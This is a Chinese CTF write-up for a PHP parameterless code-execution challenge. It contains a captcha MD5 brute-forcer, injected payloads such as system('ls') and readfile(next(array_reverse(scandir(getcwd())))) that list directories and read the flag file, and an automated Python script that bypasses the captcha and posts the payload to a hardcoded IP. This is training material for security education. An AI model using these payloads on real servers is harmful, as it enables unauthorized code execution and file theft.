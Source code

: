 # evalcode
## 考察知识点：
### 1.无参数代码执行

## 1.爆破验证码
```
import hashlib
for x in range(1,300000):
    string=str(x)
    md5 = hashlib.md5(string.encode('utf-8')).hexdigest()
    cap='65a3'
    if(md5[0:4]==cap.lower()):
        print(string)
```

## 2.根据题目提示执行代码

`system('ls');`

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/69A09DA695054E4EAB986A79F3F643D5evalcode1.png)

根据返回提示知道为无参数代码执行，参考bytectf boringcode

## 3.查看phpinfo页面

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/032A041F49E04722A55876AC7B888182evalcode2.png)

disable_function模块无任何函数限制。

### 4.目录探测

payload:`var_dump(scandir(current(localeconv())));`

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/030A3F34BB484731BC290C3049C8FADCevalcode3.png)

### 5.falg应该在the_flag.php文件中，构造payload读取倒数第二个文件：

`readfile(next(array_reverse(scandir(getcwd()))));`

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/763B9A2AA256482CBAF06E217A7D4F72evalcode4.png)

成功读取flag。

payload，函数简单讲解：

getcwd():获取当前目录

scandir():列出指定路径中的文件和目录

array_reverse()：返回顺序相反的数组

next():将数组指针向前推一步，然后返回元素值

readfile(): 文件读取


## 这个题有多种解法
### 法二：http头

参考文章：

https://xz.aliyun.com/t/6316

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/3365BECB88C546558068FC5A392D6ADEevalcode5.png)

### 大佬们甚至写出了全自动脚本

给脚本加一些注释膜一下

```
# coding=utf-8
# 计算一个值的md5值，使他的前四位==验证码

import hashlib
import requests
import re
import random

from sympy import group

url = "http://148.70.59.198:34386/"

# http头
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'Cookie': 'PHPSESSID=0b1cc21e734a29e8b4f881e0cf548b42'
}


def get_cap():
    # 获取页面的验证码
    req = requests.get(url=url, headers=headers)
    text = req.text

    # 搜索页面中的验证码,采用（.*？）匹配
    cap1 =re.search("substr\(md5\(\$captcha\),0,4\) =='(.*?)'",text)
    # 取搜索到的第一个值
    cap =cap1.group(1)

    # 爆破验证码
    mad5_value = ''
    x = ''

    # 将获取到的验证码与md5加密的随机数比较，知道md5值得前四位与验证码相等时，返回随机数
    while cap != mad5_value:
        x = str(random.random())
        mad5_value = hashlib.md5(x.encode('utf-8')).hexdigest()[0:4]

    return x


def test(payload, cap):
    data = 'payload={0}&code={1}'.format(payload, cap)
    text = requests.post(url=url, headers=headers, data=data).text
    return text


if __name__ == '__main__':
    payload = 'readfile(next(array_reverse(scandir(getcwd()))));'
    response = test(payload, get_cap())
    print(response)

# 构造数据包发送请求
```